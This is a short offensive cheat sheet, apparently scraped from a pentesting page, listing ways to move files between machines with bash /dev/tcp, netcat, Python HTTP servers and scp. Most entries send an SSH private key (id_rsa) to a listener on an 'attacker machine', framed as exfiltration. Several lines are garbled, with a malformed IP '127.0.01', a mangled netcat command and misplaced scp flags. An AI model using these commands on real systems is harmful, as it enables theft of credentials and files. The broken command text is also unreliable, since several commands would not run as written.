 Bash Upload
# Upload file over HTTP (require HTTP service running on the attacker machine)

bash -c 'echo -e "POST / HTTP/0.9 $(<id_rsa)" > /dev/tcp/127.0.01/4444'

# Exfiltrate file over TCP# Listen with Netcat on port 4444 + output redirection
nc -l -p 4444 > data

bash -c 'cat id_rsa > /dev/tcp/127.0.01/4444'

Bash Download
# Send via netcat

nc -l -p 4444 < id_rsa

# Download file on the other machine

bash -c 'cat < /dev/tcp/127.0.01/4444 > id_rsa'

Netcat
# Upload payload

nc -lnvp ; 4444nc 127.0.01 4444 < id_rsa

# Download

nc 127.0.01 4444 < id_rsa

nc -lnvp 4444 > file_saved

Python
# Python3 HTTP Server

python3 -m http.server 4444

# Python2 HTTP Server

python -m SimpleHTTPServer 4444

SCP
# Upload from local host to remote computer

scp id_rsa username@127.0.01:~/destination -P 4444

# Download from remote computer

scp user@127.0.01:~/path_to_file file_saved -P 4444
